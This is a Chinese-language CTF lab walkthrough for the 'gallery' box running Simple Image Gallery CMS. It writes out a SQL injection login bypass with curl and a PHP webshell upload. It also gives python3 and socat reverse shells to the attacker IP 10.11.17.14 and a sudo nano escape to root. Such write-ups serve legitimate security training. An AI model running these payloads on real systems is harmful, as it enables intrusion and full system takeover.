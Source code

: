 # gallery

开启靶机，按规矩nmap扫一波

进入8080端口的web页面

看到是CMS, Simple Image Gallery

    searchsploit Simple Image Gallery

发现有rce漏洞

分析了一下exp，其实很简单

http://10.10.206.231/gallery/classes/Login.php?f=login

存在sqli漏洞，绕过登录进入后台后，存在任意文件上传漏洞，然后我们上传reverseshell，得到shell

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">curl</font> <font color="#9755B3">--url</font> <font color="#FEA44C">&apos;http://10.10.206.231/gallery/classes/Login.php?f=login&apos;</font> <font color="#9755B3">-X</font><font color="#FEA44C"> POST </font><font color="#9755B3">-H</font> <font color="#FEA44C">&apos;Content-Type: application/x-www-form-urlencoded&apos;</font> <font color="#9755B3">-d</font> <font color="#FEA44C">&quot;username=admin&apos; or 1=1%23&amp;password=123&quot;</font>
{&quot;status&quot;:&quot;success&quot;} </pre>

找到文件上传点，上传一句话

上传的文件在/gallery/uploads文件夹：

    http://10.10.206.231/gallery/uploads/user_1/album_2/1671002760.php/?cmd=whoami

python3 reverse shell:

    http://10.10.206.231/gallery/uploads/user_1/album_2/1671002760.php/?cmd=python3%20-c%20%27import%20socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.11.17.14%22,8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(%22/bin/sh%22)%27

升级shell

    python3 -c "import pty;pty.spawn('/bin/bash')"


翻看/var/www/html，最终在initialize.php发现了登录数据库的用户名和密码

进入数据库获得admin的MD5密码，提交

到这里就没了，于是去找找有没有备份文件

在/var/backups下发现mike_home_backup文件夹，并存在.bash_history

读取该文件获得mike密码

    b3stpassw0rdbr0xx

登录查看sudo -l

可以运行bash /opt/rootkit.sh

rootkit.sh中可以运行nano ...file

首先升级一下shell

    攻击机：socat file:`tty`,raw,echo=0 tcp-listen:9999
    


    再次反弹shell:socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.11.17.14:9999

然后再次登录mike账号运行:

    sudo bash /opt/rootkit.sh

CTRL + R,  CTRL + X

    reset; sh 1>&0 2>&0

成功提权root
